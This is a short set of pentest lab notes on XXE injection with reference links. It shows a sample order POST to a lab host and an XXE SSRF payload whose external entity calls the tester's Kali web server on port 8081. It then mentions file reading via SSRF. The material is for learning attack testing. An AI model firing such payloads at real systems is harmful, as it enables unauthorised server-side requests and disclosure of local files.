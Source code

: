 # XXE Injection
https://portswigger.net/web-security/xxe

https://whitehats.pwr.edu.pl/research/xxe-injection/

https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md

## Examples
Legit POST request:
```
POST /process.php HTTP/1.1
Host: 10.129.95.192
[...]
Connection: keep-alive

<?xml version = "1.0"?>
<order><quantity>1</quantity><item>Home Appliances</item><address>adsadasads</address></order>
```
### XXE SSRF
Test SSFR to confirm vulnerability
1. Run Python web server on Kali
```
python -m http.server 8081
```
2. Try to perform SSRF
```
POST /process.php HTTP/1.1
Host: 10.129.95.192
[...]
Connection: keep-alive

<?xml version = "1.0"?>
<!DOCTYPE xxe [
    <!ENTITY ssrf SYSTEM "http://<KALI IP>:8081">
]>
<order><quantity>1</quantity><item>Home Appliances</item><address>&ssrf;</address></order>
```
3. We see connection to Python webserver confirming the vuln!

### LFI via SSRF
Great when we want to see file (LFI) but web server does not return our data in HTTP response
https://whitehats.pwr.edu.pl/research/xxe-injection/#ssrf-and-lfi-via-xxe-injection
